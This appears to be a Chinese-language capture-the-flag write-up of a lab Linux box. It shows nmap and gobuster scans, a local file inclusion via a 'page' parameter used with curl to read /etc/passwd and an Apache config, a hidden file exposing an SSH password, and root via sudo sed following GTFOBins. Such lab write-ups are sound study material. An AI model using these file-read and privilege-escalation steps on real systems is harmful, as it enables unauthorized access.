






## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/sites  
❯ nmap 172.17.0.2 -sV  -A -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-28 20:05 CST
Nmap scan report for 172.17.0.2
Host is up (0.000077s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 cb:8f:50:db:6d:d8:d4:ac:bf:54:b0:62:12:7c:f0:01 (ECDSA)
|_  256 ca:6b:c7:0c:2a:d6:0e:3e:ff:c4:6e:61:ac:35:db:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Configuraci\xC3\xB3n de Apache y Seguridad en Sitios Web
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.08 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
```

## Gobuster

```
[root@kali] /home/kali/sites  
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php               ⏎
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/vulnerable.php       (Status: 200) [Size: 37]
/server-status        (Status: 403) [Size: 275]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

## ReadAnyFiles



需要提供一个**page**参数或者**username**参数，这里尝试读取**/etc/passwd**



看到存在**chocolate**用户，无法直接读取**ssh**密钥

由于在页面中发现了这个conf文件



尝试读取

```
[root@kali] /home/kali/sites  
❯ curl --path-as-is 'http://172.17.0.2/vulnerable.php?page=/etc/apache2/sites-available/sitio.conf' 
<VirtualHost *:80>
    ServerAdmin webmaster@tusitio.com
    DocumentRoot /var/www/html
    ServerName sitio.dl
    ServerAlias www.sitio.dl

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    # Bloquear acceso al archivo archivitotraviesito (cuidadito cuidadin con este regalin)
    # <Files "archivitotraviesito">
    #   Require all denied
    # </Files>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

哎，看不懂，拿给翻译

注释说明要阻止对名为 `archivitotraviesito` 的文件的访问。相关配置被注释掉了，未生效。

尝试访问 **http://172.17.0.2/archivitotraviesito**



得到登录密码



## Root

查看特殊权限命令

```
chocolate@805cedff7533:~$ sudo -l
Matching Defaults entries for chocolate on 805cedff7533:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 805cedff7533:
    (ALL) NOPASSWD: /usr/bin/sed
```

在**GTFObins**中有记录，可以直接用

- [sed | GTFOBins](https://gtfobins.github.io/gtfobins/sed/)



## Summary

感觉这个不像是一个**Medium**的靶机。。。

`User`：任意文件读取，可以看到apache的配置文件的注释中有一个隐藏的路由，访问得到ssh密码。

`Root`：查**GTFO**直接提权，没啥好说的。
